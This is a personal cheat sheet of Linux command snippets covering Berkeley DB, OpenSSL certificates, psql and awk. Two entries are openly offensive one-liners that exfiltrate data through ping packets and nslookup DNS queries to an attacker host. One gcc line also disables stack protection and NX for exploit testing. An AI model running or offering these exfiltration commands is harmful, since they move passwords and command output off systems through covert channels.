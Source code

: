 # Useful Linux command line snippets

## View Berkeley DB files

```sh
$ file filename.db
postgrey.db: Berkeley DB (Btree, version 9, native byte-order)
$ db_dump -p filename.db
# <snip>
```

`db_dump` in package `core/db` on Arch/`db-util` on Debian

### in python

```python
import bsddb
for k, v in bsddb.btopen("filename.db").iteritems():
    print k, v
```

## OpenSSL one-liner to create a self-signed cert for 10 years

```sh cheat openssl Create self-signed cert
openssl req -new -newkey rsa:4096 -days 3650 -nodes -x509 -keyout server.key -out server.crt
```

## gcc: enable executable stack, disable NX

```sh
gcc -fno-stack-protector -z execstack -o test test.c
```

## Postres psql commands

```
\? list all the commands.
\l(+) list databases.
\d(+) list tables, views, sequences.
\conninfo display information about current connection.
\c [DBNAME] connect to new database, e.g., \c template1.
\dt list tables.
\q quit psql.
```

This lists databases:

```
SELECT datname FROM pg_database
WHERE datistemplate = false;
```

This lists tables in the current database

```
SELECT table_schema,table_name
FROM information_schema.tables
ORDER BY table_schema,table_name;
```

## split lines and print them using awk

```
❯ cat testinput
user1          user2          user3
user4       user5     user6
user7
❯ cat testinput | awk '{printf "%s\n%s\n%s\n",$1,$2,$3}'
user1
user2
user3
user4
user5
user6
user7



# alternative solution
❯ awk '{print $1; print $2; print $3}' testinput
user1
user2
user3
user4
user5
user6
user7




```

There are newlines at the end that I can't explain, but I can live with that. I think they are because of the newline at the end of the file.

## Exfiltrate data via ping
`cat password.txt | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done`

## Exfiltrate data via nslookup (on Windows)
`for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('<cmd>') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" <attackerip>)`

## Generating .p12 from X509 and P7 using OpenSSL

### Generating PKCS12 Certificate using x509

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl Convert x509 to PKCS12
openssl pkcs12 -export -out certificate.pfx -inkey cert-privkey.crt -in cert-pickup.crt
```

### Generating PKCS12 Certificate using PKCS7 Certificate

 - Save Private Key in a file (cert-privkey.crt)
 - Save x509 Cert in a file (cert-pickup.crt)
 - Run Below command to generate PKCS12 Certificate (certificate.pfx)

```bash cheat openssl convert PKCS7 to PKCS12
openssl pkcs7 -in cert-p7b-file.p7b -out smime-cert.pem -print_certs`
openssl pkcs12 -export -inkey cert-p7b-priv.key  -in smime-cert.pem -name Smime-SymantecTest -out smime-Final.pfx
```

## Extract data from PKCS12 certificate

```bash cheat openssl Extract CA, cert and key from PKCS12
openssl pkcs12 -in file.pfx -clcerts -nokeys -out cert.crt
openssl pkcs12 -in file.pfx -nocerts -nodes -out key.pem
openssl pkcs12 -in file.pfx -cacerts -nokeys -out ca.crt
```

tags: #linux #snippets #python #openssl #postgresql #awk 
